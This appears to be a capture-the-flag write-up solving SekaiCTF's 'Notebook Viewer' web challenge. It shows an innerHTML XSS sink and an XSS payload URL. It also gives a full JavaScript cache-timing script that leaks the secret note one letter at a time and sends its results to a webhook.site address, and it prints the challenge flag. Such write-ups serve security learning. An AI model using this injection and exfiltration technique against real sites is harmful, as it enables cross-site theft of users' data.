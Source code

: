 ```yaml
---
title: Notebook Viewer
summary: Miku created this notebook, can you extract its secrets?
tags: [SekaiCTF, Web, Timing Attack]
date: 2025-08-18
---
```


## Description

Miku created this notebook, can you extract its secrets?

Flag format: `SEKAI{[a-zA-Z0-9{}$@(<&!*#+_\-]+}`

Difficulty: 🔶🔶🔶🔷  
Author: Qyn

[Admin bot](https://ctf.sekai.team/adminbot/nbv)  
[Given files](/sekaictf/notebook-viewer/nbv-dist.7z)

## Solution

The challenge presents a single HTML page displaying a notebook.

![index.html](/sekaictf/notebook-viewer/index.png)

From examining the bot's source code, we know that we need to retrieve the secret note from another browser tab.

```adminbot.js
let page1 = await browser.newPage();
await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
    waitUntil: "networkidle2"
});

let page2 = await browser.newPage();
await page2.goto(url);
```

At first glance, this seems impossible because browser tabs typically can't interact with each other.
However, let's explore further.

The first thing I attempted was an XSS attack in the secret note with `?note=<img src=x onerror=alert('XSS') />`, but this didn't work.
I then inspected the page's JavaScript code to see if any sanitization was applied.
There was no sanitization, but the text was displayed in a peculiar way: each letter was rendered in its own iframe, preventing the XSS from executing.

```index.js
const uri = new URL(location.href);
const note = uri.searchParams.get('note') || 'my secret notes';

function srcFor(i, code) {
  return `https://nbv-${i}-${code}.chals.sekai.team/`;
}

for (let i = 0; i < note.length; i++) {
  const code = note.codePointAt(i);
  const frame = document.createElement('iframe');
  frame.scrolling = 'no';
  frame.src = srcFor(i, code);
  wrap.appendChild(frame);
}
```

Upon inspecting the iframe code, I discovered that it simply displayed the letter specified in its URL or the text passed through the query parameter.
This opened the door for an XSS vulnerability.

```frame.js
let uri = new URL(location.href);
const note = uri.searchParams.get("note");
const txt = document.querySelector('#note');

if (note)
    txt.innerHTML = note;
else
    txt.innerHTML = String.fromCharCode(uri.host.split('-')[2].split('.')[0]);
```

At this point, I had reviewed the provided files, understood how the application worked, found an XSS vulnerability, but still had no clear idea on how to retrieve the flag.

Then, I asked myself: why does the `srcFor` function include the character position when building the iframe URL? It isn't use by the iframe.
That's when it clicked: the combination of the character position and code was used to generate a unique URL for each letter, which potentially exposed the website to a resource timing attack.

### Timing Attack

Let's break down how the website operates:
- The flag is stored as a secret note.
- For each letter, the website sends a request to a URL containing the letter's position and code, and displays the letter in an iframe.
- Because the browser caches these requests, we can exploit this by making requests for all possible letters and observe which one is served fastest.
- The letter that is served the quickest will be the one already cached — meaning it’s part of the flag.

To automate this process, I wrote a script that attempts all characters for a given position and reports the most probable characters, ordered by fetch time, via a webhook.
While I could have attempted to guess multiple letters at once, I avoided this as it might have caused the flag request to become uncached due to the large volume of requests made by the script.

```js
const INDEX = 1; // Letter position
const CHARSET = shuffle(
  // Shuffle the charset to avoid giving an advantage to the first letters
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}@(<&!*#+_-",
);

const URL = (i, code) => `https://nbv-${i}-${code}.chals.sekai.team/`;
const WEBHOOK = "https://webhook.site/e5245448-2fa6-417d-9348-65d36f92d28e/";

function shuffle(str) {
  const array = str.split("");
  for (let i = array.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [array[i], array[j]] = [array[j], array[i]];
  }
  return array.join("");
}

function sort(dict) {
  let items = Object.keys(dict).map(function (key) {
    return [key, dict[key]];
  });

  items.sort(function (first, second) {
    return first[1] - second[1];
  });

  return items.map((key) => key[0]);
}

async function timingAttack() {
  const fetchPromises = []; // Array to store all fetch promises
  const charTimes = {}; // Object to store character-fetch times

  // PerformanceObserver to monitor network fetch timings
  let observer = new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
      const timeToFetch = entry.responseEnd - entry.fetchStart;
      if (timeToFetch > 0 && entry.name.includes("chals.sekai.team")) {
        const char = String.fromCharCode(
          entry.name.split("-")[2].split(".")[0],
        );
        charTimes[char] = timeToFetch;
      }
    });
  });

  observer.observe({ type: "resource", buffered: true });

  // Fetch the iframe URL for each character
  for (const c of CHARSET) {
    fetchPromises.push(fetch(URL(INDEX, c.charCodeAt(0)), { mode: "no-cors" }));
  }

  // Wait for all fetch requests to complete
  await Promise.all(fetchPromises);

  observer.disconnect();

  // Send the results (sorted character fetch times) to the webhook
  fetch(`${WEBHOOK}?${INDEX}=${encodeURIComponent(sort(charTimes).join(""))}`, {
    mode: "no-cors",
  });
}

timingAttack();
```

To execute the script, I used the XSS vulnerability I discovered earlier, embedding the link to the admin bot: `https://nbv-0-83.chals.sekai.team/?note=<img src=x onerror='[URL_ENCODED_SCRIPT]' />`.
Using this technique, I was able to retrieve the entire flag, one letter at a time, by sending my link to the admin bot 4-5 times per letter to determine the consistently fastest letter.

```
SEKAI{prOc3s5_IsoLAT10n_X5l34K5_fTW}
```

## References

* Practical CTF: [Timing Attacks](https://book.jorianwoltjer.com/cryptography/timing-attacks)

